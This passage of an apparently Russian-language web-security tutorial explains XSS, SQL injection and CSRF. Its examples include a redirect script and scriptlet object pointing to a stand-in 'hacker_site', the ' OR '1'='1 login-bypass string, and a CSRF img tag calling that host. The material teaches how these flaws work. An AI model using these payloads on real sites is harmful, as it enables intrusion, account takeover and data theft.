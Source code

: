 либо скрипт делающий редирект на зараженную страницу:

\<script\>window.parent.location.href='http://hacker\_site';\</script\>

либо создающий вредоносный объект с вирусом и т.п.:

\<object type="text/x-scriptlet" data="http://hacker\_site"\>\</object\>

 

**Code-injection** (SQL, PHP, ASP etc.) — это вид уязвимости, при котором
становится возможно осуществить запуск исполняемого кода с целью получения
доступа к системным ресурсам, несанкционированного доступа к данным либо
выведения системы из строя.

Вставки исполняемого кода рассмотрим на примере кода SQL.

Форма входа в систему имеет 2 поля - имя и пароль. Обработка происходит в базе
данных через выполнение SQL запроса:

SELECT Username

FROM Users

WHERE Name = 'tester'

AND Password = 'testpass';

Вводим корректное имя ’tester’, а в поле пароль вводим строку:

testpass' OR '1'='1

В итоге, Если поле не имеет соответствующих валидаций или обработчиков данных,
может вскрыться уязвимость, позволяющая зайти в защищенную паролем систему,
т.к.SQL запрос примет следующий вид:

SELECT Username

FROM Users

WHERE Name = 'tester'

AND Password = 'testpass' OR '1'='1';

Условие '1'='1' всегда будет истинным и поэтому SQL запрос всегда будет
возвращать много значений.

 

**XSRF / CSRF** (Request Forgery) - это вид уязвимости, позволяющий
использоваться недостатки HTTP протокола, при этом злоумышленники работают по
следующей схеме: ссылка на вредоносный сайт установливается на странице,
пользующейся доверием у пользователя, при переходе по вредоносной ссылке
выполняется скрипт, сохраняющий личные данные пользователя (пароли, платежные
данные и т.д.), либо отправляющий СПАМ сообщения от лица пользователя, либо
изменяет доступ к учетной записи пользователя, для получения полного контроля
над ней. Пример:

IMG SRC:

\<img src="http://hacker\_site/?command"\>
